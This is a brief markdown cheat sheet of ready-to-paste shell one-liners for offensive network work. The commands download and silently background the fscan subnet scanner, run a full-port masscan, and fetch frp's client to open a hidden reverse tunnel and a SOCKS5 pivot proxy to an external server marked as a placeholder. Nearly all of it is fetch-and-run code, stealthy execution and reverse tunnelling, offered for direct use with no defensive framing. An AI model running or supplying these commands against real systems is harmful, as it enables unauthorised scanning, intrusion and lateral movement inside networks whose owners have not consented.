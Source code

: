 ## Quick and easy to use fscan.
```
curl -#L https://github.com/shadow1ng/fscan/releases/download/1.8.3/fscan -o /tmp/fscan && chmod +x /tmp/fscan && (nohup /tmp/fscan -h /24 -o /tmp/results.txt > /dev/null 2>&1 &) && echo FscanRunning
```

## Quick and easy to use Masscan -> results.txt`ip:port`
```
sudo masscan -p- --rate=1000 -iL ../ips.txt -oL results.txt && awk '{print $4 ":" $3}' results.txt
```

## Quick and easy to use frpc.
**`Frpc 0:8088 -> frp:8088`**
```
curl -#L https://github.com/fatedier/frp/releases/download/v0.53.2/frp_0.53.2_linux_amd64.tar.gz | tar -zvxO --wildcards frp_*/frpc > /tmp/frpc && (nohup /tmp/frpc tcp -n $RANDOM -l 8088 -r 8088 -s FrpIP -P 7000 >/dev/null 2>&1 &) && echo FrpRunning
```
**`Frpc Socks5-Proxy -> frp:1087 -> 0.0.0.0/24`**
```
FrpsIP= && FrpsPort=7000 && config="""[common]\nserver_addr = $FrpsIP\nserver_port = $FrpsPort\n[s0cks5]\ntype = tcp\nplugin = socks5\nremote_port = 1087\n""" && curl -#L https://github.com/fatedier/frp/releases/download/v0.53.2/frp_0.53.2_linux_amd64.tar.gz | tar -zvxO --wildcards frp_*/frpc > /tmp/frpc && echo -e $config > /tmp/frpc.toml && (nohup /tmp/frpc -c /tmp/frpc.toml >/dev/null 2>&1 &) && echo FrpSocksProxyRunning
```
